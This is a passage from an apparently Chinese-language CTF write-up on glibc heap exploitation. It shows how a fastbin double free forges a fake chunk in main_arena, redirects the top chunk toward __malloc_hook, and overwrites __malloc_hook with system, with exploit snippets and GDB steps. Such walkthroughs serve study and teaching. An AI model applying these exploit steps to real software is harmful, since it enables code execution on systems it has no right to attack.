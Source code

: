 用 GDB 调试再用`find_fake_fast`

![](https://static.hack1s.fun/images/2021/03/10/image-20210310152249545.png)

现在已经让`main_arena`中可以满足 size 字段的检查了，接下来再通过一次 fastbin_dup 来申请这个位置的 chunk

malloc 和 free 的流程如下

```
c=malloc(0x58,"C")
d=malloc(0x58,"D")

free(c)
free(d)
free(c)

malloc(0x58,p64(libc.sym.main_arena+40))
malloc(0x58,"c")
malloc(0x58,"d")

```

这里的 40 是通过看 0x50 的 chunk 所在的位置`p &main_arena->fastbinsY[3]`

运行完毕之后查看 fastbins

![](https://static.hack1s.fun/images/2021/03/10/image-20210310153723077.png)

发现这个地址好像没有对上，覆盖的那个地方应该是`7b80`，但是写的是`7b88`

所以第二次填充的那个再改一下，改成`libc.sym.main_arena+32`

这样从`0x7b80`开始就是一个符合 chunk 结构的 fake chunk 了

![](https://static.hack1s.fun/images/2021/04/01/image-20210401161229831.png)

目标就是修改掉红框中的这个

Arena 的结构中有一个地方是指示了 top chunk 的

可以尝试通过在`main_arena`中修改掉 top chunk 的值，修改为`__malloc_hook`前面 0x10 字节

这样之后申请写入就是直接修改`__malloc_hook`了

![](https://static.hack1s.fun/images/2021/03/10/image-20210310161659389.png)

我们伪造的 chunk 的 user data 是从 0x60 开始的

所以首先要填充所有的 fastbin，之后的一个字就是 top chunk

所以再一次 malloc 修改 top chunk，一次 malloc 修改`__malloc_hook`

```
malloc(0x58,b"a"*0x10*3+p64(lib.sym.__malloc_hook-0x10))
malloc(0x28,p64(libc.sym.system))

```

结果发现报错了，说是 corrupted top size
